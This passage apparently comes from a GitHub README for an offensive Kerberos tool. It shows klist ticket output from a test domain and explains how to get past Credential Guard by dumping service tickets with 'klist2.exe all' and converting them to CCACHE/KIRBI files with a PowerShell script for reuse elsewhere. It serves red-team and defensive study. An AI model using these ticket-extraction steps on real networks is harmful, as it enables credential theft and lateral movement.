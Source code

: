  PS C:\windows\tasks> klist<br>
<br>
Current LogonId is 0:0x467fecc<br>
<br>
Cached Tickets: (1)<br>
<br>
#0>     Client: Administrator @ TEST.LOCAL<br>
        Server: krbtgt/TEST.LOCAL @ TEST.LOCAL<br>
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96<br>
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize<br>
        Start Time: 9/2/2025 11:56:03 (local)<br>
        End Time:   9/2/2025 21:56:03 (local)<br>
        Renew Time: 9/9/2025 11:56:03 (local)<br>
        Session Key Type: AES-256-CTS-HMAC-SHA1-96<br>
        Cache Flags: 0x1 -> PRIMARY<br>
        Kdc Called:<br>
 PS C:\windows\tasks> klist get host/dc01.test.local<br>
<br>
Current LogonId is 0:0x467fecc<br>
A ticket to host/dc01.test.local has been retrieved successfully.<br>
<br>
Cached Tickets: (2)<br>
<br>
#0>     Client: Administrator @ TEST.LOCAL<br>
        Server: krbtgt/TEST.LOCAL @ TEST.LOCAL<br>
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96<br>
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize<br>
        Start Time: 9/2/2025 11:56:31 (local)<br>
        End Time:   9/2/2025 21:56:31 (local)<br>
        Renew Time: 9/9/2025 11:56:03 (local)<br>
        Session Key Type: AES-256-CTS-HMAC-SHA1-96<br>
        Cache Flags: 0x1 -> PRIMARY<br>
        Kdc Called: DC01.test.local<br>
<br>
#1>     Client: Administrator @ TEST.LOCAL<br>
        Server: host/dc01.test.local @ TEST.LOCAL<br>
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96<br>
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize<br>
        Start Time: 9/2/2025 11:56:31 (local)<br>
        End Time:   9/2/2025 21:56:31 (local)<br>
        Renew Time: 9/9/2025 11:56:03 (local)<br>
        Session Key Type: AES-256-CTS-HMAC-SHA1-96<br>
        Cache Flags: 0<br>
        Kdc Called: DC01.test.local<br>
<br>
<br>
This method works best if you are able to establish an interactive session on the remote host (RDP for example). Network based logins can still suffer from a double hop issue making command execution on remote hosts not work correctly, an issue im still working on building some tooling to work around. <br>
<br>
The second method comes from the fact that Credential Guard only protects TGT's it does not protect against service tickets and therefore service tickets can still be extracted from the system and re-used elsewhere. This can be done with the all parameter of klist2.exe (klist2.exe all -li <luid of session to dump>). The resulting output of the service ticket can be taken offline and converted to a CCACHE or KIRBI file. An example of how to do that is present in this repository in the klist-convertst.ps1 script which utilizes the Kerberos.NET library for conversion. The tool requires being run with Powershell 7.0 or higher and requires the Kerberos.net DLL's to be in the same directory as the script (or modifying the script code to import the DLL's from a different location). The script takes as input a text file containing all the details obtained from klist2.exe output (beginning with the line starting with ServiceName all the way down to the end of the hex dump output). Save that output to a text file and then convert with klist-convertst.ps1 -inputfile <path to text file> -outputfile <path where ccache should be placed including file name and extension i.e. klist-convertst.ps1 -inputfile c:\windows\tasks\Administrator.txt -outputfile c:\windows\tasks\Administrator.ccache.<br> 
